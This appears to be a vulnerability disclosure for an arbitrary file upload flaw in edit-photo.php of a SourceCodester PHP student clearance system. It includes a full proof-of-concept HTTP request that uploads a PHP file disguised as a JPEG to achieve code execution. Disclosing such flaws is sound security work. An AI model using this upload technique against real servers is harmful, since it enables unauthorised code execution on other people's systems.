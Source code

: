 ## Vulnerability Description

Arbitrary file upload vulnerability in SourceCodester [Web-Based Student Clearance System in PHP Free Source Code v1.0](https://www.sourcecodester.com/php/15627/web-based-student-clearance-system.html) allows attackers to execute arbitrary code via the file upload to edit-photo.php. It is an open source project from [https://www.sourcecodester.com/](https://www.sourcecodester.com/).

1. BUG_Author: Tr0e
  
2. vendors: [Web-Based Student Clearance System in PHP Free Source Code](https://www.sourcecodester.com/php/15627/web-based-student-clearance-system.html);
  
3. The program is built using the xmapp/v3.3.0 and PHP/8.1.10 version;
  
4. Vulnerability location: /student_clearance_system_Aurthur_Javis/edit-photo.php
  

# Vulnerability Verification

[+] Payload:

```php
<?php phpinfo();?>
```

POC：

```js
POST http://192.168.0.111:91/student_clearance_system_Aurthur_Javis/edit-photo.php HTTP/1.1
Host: 192.168.0.111:91
Content-Length: 311
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.111:91
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarytjK6voHXrTiN8PsK
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.0.111:91/student_clearance_system_Aurthur_Javis/edit-photo.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=e8pdd3dv0b39d1h4vcj99q01cq
Connection: close

------WebKitFormBoundarytjK6voHXrTiN8PsK
Content-Disposition: form-data; name="userImage"; filename="shell.php"
Content-Type: image/jpeg

<?php phpinfo();?>
------WebKitFormBoundarytjK6voHXrTiN8PsK
Content-Disposition: form-data; name="btnedit"


------WebKitFormBoundarytjK6voHXrTiN8PsK--
```

## How to verify

Build the vulnerability environment according to the steps provided by the source code author (First log in to the background management system through the default account password, then create a student user and obtain the login password) and execute the Payload provided above.

The vulnerability lies in the "Account - Edit Photo " function, you shuold inserts Payload when you update photo，as shown in the following figure：
![image](https://user-images.githubusercontent.com/42080954/194352089-7cba511a-a763-4a77-86a8-04d96f036a25.png)
![image](https://user-images.githubusercontent.com/42080954/194353581-dac75c75-9e9e-4f8b-a272-3791a9a2fe86.png)
![image](https://user-images.githubusercontent.com/42080954/194353855-2775478f-c7ef-49ad-9756-af7742a6c7b9.png)


